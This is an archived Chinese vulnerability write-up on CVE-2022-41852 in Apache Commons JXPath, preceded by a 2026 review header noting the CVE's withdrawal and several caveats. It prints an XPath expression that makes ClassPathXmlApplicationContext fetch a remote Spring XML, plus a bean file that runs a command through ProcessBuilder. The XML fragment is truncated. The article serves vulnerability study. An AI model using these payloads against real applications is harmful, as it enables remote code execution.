## 2026-10-03 编号核验

CNA 已撤销 CVE-2022-41852，理由为进一步调查未确认安全问题。本页继续保留 Apache Commons JXPath 表达式求值与扩展函数的技术分析；应用将不可信表达式交给求值接口的条件仍需单独判断，不能将这些示例等同于已确认的库级 RCE 编号或通用受影响版本范围。


#  【技术干货】CVE-2022-41852 Apache Commons Jxpath命令执行漏洞分析   

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Apache Commons JXPath，Spring为利用依赖
- 本文讨论：CVE-2022-41852不可信XPath表达式执行
- 版本、权限与配置前提：≤1.3，应用把攻击者XPath交求值，扩展函数可用；示例需Spring在classpath
- 资料类型：Java库技术分析；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 误归安全设备/360，与360产品无关
- XML样例开头缺beans根节点起始部分，文本片段不能直接解析
- 所有非compile函数均可执行的概括缺方法逐项依据，权限依赖调用应用
- 2022称官方停止更新/无修复须标当时状态，不能当持续事实；原文讨论 MethodFunction 在 Spring 场景中的使用，未将其包归属声明为 Spring
- 已落实的文本修订：恢复“Spring框架中还可以用org.apache.commons.jxpath.functions.MethodFunction这个类。”的原始使用场景，包归属说明另列旁注；“目前官方已经停止更新，无修复版本。”改为“原文于 2022-10-24 声称当时无修复版本。这是历史状态，不能作为当前维护或修复状态；后续版本和扩展函数限制需另核对官方公告。”。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证
- XML 起始根元素缺失，不能按可直接解析的配置文件使用；不凭结束标签补造缺失配置。MethodFunction 的包归属已更正；远程 Spring 配置链仍要求依赖在 classpath、允许扩展函数及外联条件。

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 官方CVE状态、后续版本及函数限制待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

 星阑科技   2022-10-24 10:52  
  
  
  
  
  
  
  
**xxhzz**  
  
**@PortalLab实验室**  
  
**项目介绍**  
  
Apache Commons JXPath是美国阿帕奇（Apache）基金会的一种 XPath 1.0 的基于 Java 的实现。JXPath 为使用 XPath 语法遍历 JavaBeans、DOM 和其他类型的对象的图形提供了 API。  
  
**漏洞描述**  
  
Apache Commons JXPath 存在安全漏洞，攻击者可以利用除compile()和compilePath()函数之外的所有处理XPath字符串的JXPathContext类函数通过XPath表达式从类路径加载任何Java类，从而执行恶意代码。  
  
  
  
**利用范围**  
  
Apache Commons JXpath <= 1.3  
  
**漏洞分析**  
## 环境搭建  
  
使用github上POC进行分析复现https://github.com/Warxim/CVE-2022-41852  
  
  
  
漏洞POC使用Spring框架，简单实现接受用户输入并使用它从Person类中检索指定的数据。  
## 前置知识  
  
在漏洞分析之前，首先了解一下JXPath及用法（参考官网用户指南：https://commons.apache.org/proper/commons-jxpath/users-guide.html）  
  
  
  
JXPath除了能够像XPatth一样能够访问XML文档各种元素之外，还能够读取和写入JavaBean的属性，获取和设置数组、集合、映射、透明容器、Servlet 中的各种上下文对象等元素。  
  
JXPath 支持开箱即用的标准 XPath 函数。它还支持“标准”扩展函数（基本上是通往 Java 的桥梁），以及完全自定义的扩展函数。  
  
  
## 代码分析  
  
JXPath支持自定义扩展函数，首先看一下PackageFunctions这个类  
  
  
  
在org.apache.commons.jxpath.PackageFunctions#getFunction中，存在methodName.equals("new"）  
  
  
  
这里实例化的xpath表达式设置为了xxx.new()，截取括号前作为方法名，如果调用new方法就被视为实例化，两个判断一个是实例化构造函数，另一个是静态方法。  
  
往下分析，如果是实例化构造函数，在Spring框架中可通过加载远程配置实现命令执行，这里使用org.springframework.context.support.ClassPathXmlApplicationContext类，构造payload：  
  
org.springframework.context.support.ClassPathXmlApplicationContext.new("http://127.0.0.1:8001/test.xml")  
  
恶意的xml文件使用Spring-bean，设置init-method实现RCE  
```
"http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>cmd</value>
                <value>/c</value>
                <value><![CDATA[calc]]></value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```  
  
在实例化之后，继续跟进会来到org.apache.commons.jxpath.ri.compiler.ExtensionFunction#computeValue  
  
  
  
在获得了org.apache.commons.jxpath.Function对应的这个实例后，会调⽤具体的invoke实现。  
  
  
  
  
  
最后在调用invoke实现Spring-bean加载，执行恶意代码。  
  
  
  
Spring框架中还可以用org.apache.commons.jxpath.functions.MethodFunction这个类。  

> 校订说明：此句保留原作者所述的 Spring 使用场景；`org.apache.commons.jxpath.functions.MethodFunction` 的包归属为 Apache Commons JXPath，不能据此将类本身归属 Spring。
  
除了实例化构造函数，Spring框架加载恶意配置的利用之外。还能利用静态方法进行RCE，例如jndi、jdbc等，后续笔者也会进行补充和分析。  
  
当然在官方介绍中说明，除了构造函数和使用静态方法，还介绍了一种调用。  
  
  
  
此调用也可以直接利用getValue解析表达式。  
## 漏洞复现  
  
在Spring中利用远程加载配置来命令执行。  
  
构造test.xml  
  
  
  
本地用python开启http服务，模拟远程加载。  
  
  
  
成功命令执行。  
  
  
  
**修复建议**  
  
原文于 2022-10-24 声称当时无修复版本。这是历史状态，不能作为当前维护或修复状态；后续版本和扩展函数限制需另核对官方公告。  
  
**参考材料**  
  
1.https://github.com/Warxim/CVE-2022-41852  
  
2.https://commons.apache.org/proper/commons-jxpath/users-guide.html  
  
3.https://github.com/advisories/GHSA-wrx5-rp7m-mm49  
  
**更多技术干货，欢迎关注“星阑实验室”公众号**  
  
  
**关于Portal Lab**  
  
星阑科技 Portal Lab 致力于前沿安全技术研究及能力工具化。主要研究方向为API 安全、应用安全、攻防对抗等领域。实验室成员研究成果曾发表于BlackHat、HITB、BlueHat、KCon、XCon等国内外知名安全会议，并多次发布开源安全工具。未来，Portal Lab将继续以开放创新的态度积极投入各类安全技术研究，持续为安全社区及企业级客户提供高质量技术输出。  
  
  
**往期 · 推荐**  
  
  
  
[](http://mp.weixin.qq.com/s?__biz=Mzg5NjEyMjA5OQ==&mid=2247492888&idx=1&sn=219ad26c37836f5cdefc5f41dea620c0&chksm=c0074884f770c192f60f651f3e0c6a0f293b38a59d9499a89cd1b9c2e2d8cbc4dd4620783ed1&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=Mzg5NjEyMjA5OQ==&mid=2247492771&idx=1&sn=5bc86cbf62a83db69b1b1919ad86273b&chksm=c007493ff770c0290f199daef6b03bd09f9f85e35c5179c3ca8fe062623ecc27522b45850f0a&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=Mzg5NjEyMjA5OQ==&mid=2247492691&idx=1&sn=7f4fdf863953280d024c2ae7144badff&chksm=c00749cff770c0d98d9848f5415e2c7b395add84d39e4ab51172549c024d36cfc80af23ad43e&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=Mzg5NjEyMjA5OQ==&mid=2247492617&idx=1&sn=103b4a185c02f1435ddcc1778bd038e6&chksm=c0074995f770c08374efe7cda4e53a8991a867e2b1b73fe05f0f4a32335756a56c77483ee75f&scene=21#wechat_redirect)  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
